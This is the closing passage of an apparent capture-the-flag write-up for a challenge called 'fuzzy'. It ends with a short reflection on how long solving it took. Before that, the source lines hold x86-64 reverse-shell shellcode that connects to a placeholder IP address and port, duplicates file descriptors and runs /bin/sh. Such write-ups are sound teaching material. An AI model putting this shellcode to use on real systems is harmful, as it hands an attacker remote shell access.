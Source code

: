 <span class="lnr">157 </span>  <span class="Special">&quot;</span><span class="Special">\x02</span><span class="Special">&quot;</span>+<span class="Type">SCPORT</span>+<span class="Special">&quot;</span><span class="Special">\xc7\x44\x24\x04</span><span class="Special">&quot;</span>+<span class="Type">SCIPADDR</span>+<span class="Special">&quot;</span><span class="Special">\x48\x89\xe6\x6a\x10</span><span class="Special">&quot;</span> +
<span class="lnr">158 </span>  <span class="Special">&quot;</span><span class="Special">\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48</span><span class="Special">&quot;</span> +
<span class="lnr">159 </span>  <span class="Special">&quot;</span><span class="Special">\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a</span><span class="Special">&quot;</span> +
<span class="lnr">160 </span>  <span class="Special">&quot;</span><span class="Special">\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54</span><span class="Special">&quot;</span> +
<span class="lnr">161 </span>  <span class="Special">&quot;</span><span class="Special">\x5f\x6a\x3b\x58\x0f\x05\0\0\0\0</span><span class="Special">&quot;</span>)
<span class="lnr">162 </span>
</pre>

<h2>Conclusion</h2>

So, that's my months-late writeup of fuzzy! I think I captured most of the details accurately. One thing I haven't mentioned is that I ended up finishing it at about 6:30am, a solid 12 hours of working after I started! It certainly shouldn't have been that difficult, but I took some long wrong turns. :)
